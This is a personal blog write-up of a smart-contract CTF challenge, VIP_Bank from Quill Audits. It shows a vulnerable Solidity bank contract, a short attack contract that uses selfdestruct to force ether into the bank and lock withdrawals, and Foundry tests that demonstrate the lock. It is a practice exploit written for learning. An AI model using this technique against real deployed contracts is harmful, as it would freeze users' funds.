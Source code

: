 ```yaml
---
date: 2023-04-13T12:09:20-04:00
draft: false
tags: [CTF, key 🔑]
title: "Day06 - VIP_Bank"
---
```


Recently I discovered on Twitter [this](https://academy.quillaudits.com/challenges) challenges page from Quill Audits, and I decided to give it a try.

I started with the VIPBank challenge, which is a smart contract that allows you to deposit and withdraw funds from it. The challenge consists on locking the contract, aka DoS attack.

# The contract

```javascript
pragma solidity 0.8.7;

contract VIP_Bank{

    address public manager;
    mapping(address => uint) public balances;
    mapping(address => bool) public VIP;
    uint public maxETH = 0.5 ether;

    constructor() {
        manager = msg.sender;
    }

    modifier onlyManager() {
        require(msg.sender == manager , "you are not manager");
        _;
    }

    modifier onlyVIP() {
        require(VIP[msg.sender] == true, "you are not our VIP customer");
        _;
    }

    function addVIP(address addr) public onlyManager {
        VIP[addr] = true;
    }

    function deposit() public payable onlyVIP {
        require(msg.value <= 0.05 ether, "Cannot deposit more than 0.05 ETH per transaction");
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public onlyVIP {
        require(address(this).balance <= maxETH, "Cannot withdraw more than 0.5 ETH per transaction");
        require(balances[msg.sender] >= _amount, "Not enough ether");
        balances[msg.sender] -= _amount;
        (bool success,) = payable(msg.sender).call{value: _amount}("");
        require(success, "Withdraw Failed!");
    }

    function contractBalance() public view returns (uint){
        return address(this).balance;
    }

}
```

# The attack

DoS attacks *(at least the ones I've seen for now)* are always based in the same principle, which is using the `selfdestruct()` method on an attack contract, which will force send all the funds to the victim contract even though this one won't accept incoming funds.

In this case, just by sending more than `maxETH` to the `VIP_Bank` contract, we will be able to lock it.

```javascript
pragma solidity 0.8.7;

contract Hack {
    constructor() {}

    receive() external payable {}

    function hack(address _Bank) public {
        selfdestruct(payable(_Bank));
    }
}
```

# POC

This is really the meat of this challenge for me, as I want to practice using the `foundry` framework.

We will write some tests that will prove that the `VIP_Bank` contract is in fact working properly and also show that once we use our `Hack` contract to perform the DoS attack, the contract will be locked.

### Tests initial setup

Pretty standard stuff when using `foundry`, we create a new instance of the `VIP_Bank` contract and the `Hack` contract and use the `setUp()` function which is called before each test.

```javascript
pragma solidity 0.8.7;

import "../src/VIPBank.sol";
import "../src/Hack.sol";

import "forge-std/Test.sol";

contract TestVIPBank is Test {
    VIP_Bank public vipBank;
    Hack public hack;

    function setUp() public {
        vipBank = new VIP_Bank();
        hack = new Hack();
    }
```

### Test correct functionality

This is the test that will ensure that the contract is functional and does what it is suposed to do.

```javascript
function test_canWithdraw() public {
    vipBank.addVIP(address(1));
    vm.deal(address(1), 0.1 ether);

    vm.startPrank(address(1));
    vipBank.deposit{value: 0.05 ether}();
    vipBank.withdraw(0.05 ether);
    vm.stopPrank();
}
```

### Test DoS attack

And this one will show that the contract is locked after we call our `Hack` contract.

```javascript
function testFail_cannnotWithdraw() public {
    vipBank.addVIP(address(1));
    vm.deal(address(hack), 0.1 ether);
    vm.deal(address(1), 0.6 ether);

    vm.startPrank(address(1));
    for (uint256 i = 0; i < 10; i++) {
        vipBank.deposit{value: 0.05 ether}();
    }
    hack.hack(address(vipBank));
    vipBank.withdraw(0.05 ether);
    vm.stopPrank();
}
```
Ideally we should simulate this test without giving `address(1)` VIP status, but it doesn't really matter, anyone could run the `hack()` function on the `Attack` contract.

## Wrapping up

As I'm still learning `foundry` this is the way I found to do it, but I'm sure there is a better way, if you know it, please let me know by hitting a DM [@mariodev__](https://twitter.com/mariodev__) on Twitter.